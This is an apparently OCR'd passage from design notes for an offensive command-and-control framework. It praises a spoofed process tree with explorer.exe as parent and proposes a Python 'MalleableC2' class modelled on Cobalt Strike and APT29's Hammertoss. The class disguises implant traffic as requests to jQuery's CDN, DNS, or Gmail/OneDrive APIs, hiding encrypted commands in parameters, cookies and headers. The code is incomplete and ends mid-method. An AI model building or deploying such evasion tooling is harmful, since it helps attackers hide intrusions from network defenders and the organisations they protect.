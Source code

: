 **Impact:** ✅ **Process tree looks legitimate**, explorer.exe as parent

---

## 🎯 ARCHITECTURAL IMPROVEMENTS (Research-Backed)

### IMPROVEMENT #1: Malleable C2 Profile

**Research:** Cobalt Strike's Malleable C2 (2014+)

**Add:** `Core/malleable_profile.py`
```python
class MalleableC2:
    """
    Customizable C2 traffic patterns
    
    Research:
    - Cobalt Strike Malleable C2 profiles
    - "Camouflage at Scale" - Raphael Mudge
    - APT29 "Hammertoss" - Disguised as Twitter/GitHub traffic
    
    Disguise C2 traffic as:
    - HTTP GET/POST to legitimate sites
    - HTTPS to popular CDNs
    - DNS queries
    - WebSocket connections
    - Even GMail/OneDrive API calls
    """
    
    def __init__(self, profile_path: str):
        """Load malleable profile"""
        with open(profile_path) as f:
            self.profile = self._parse_profile(f.read())
    
    def generate_request(self, command: Dict) -> requests.Request:
        """
        Generate HTTP request matching profile
        
        Example profile: "jQuery AJAX"
        GET /jquery-3.6.0.min.js?_=1234567890 HTTP/1.1
        Host: code.jquery.com
        User-Agent: Mozilla/5.0 ...
        
        Command hidden in:
        - URL parameters (encrypted)
        - Cookies
        - Custom headers
        """
        
        # Build request from profile
        request = requests.Request()
        request.method = self.profile['http-get']['method']
        request.url = self._build_url(self.profile['http-get']['uri'], command)
        request.headers = self.profile['http-get']['headers']
        
        # Embed encrypted command
        encrypted_cmd = self.crypto.encrypt_command(command)
        request.params[self.profile['param_name']] = encrypted_cmd
        
        return request
    
    def parse_response(self, response: requests.Response) -> Dict:
        """Extract command from profile-formatted response"""
        # Extract from response based on profile
```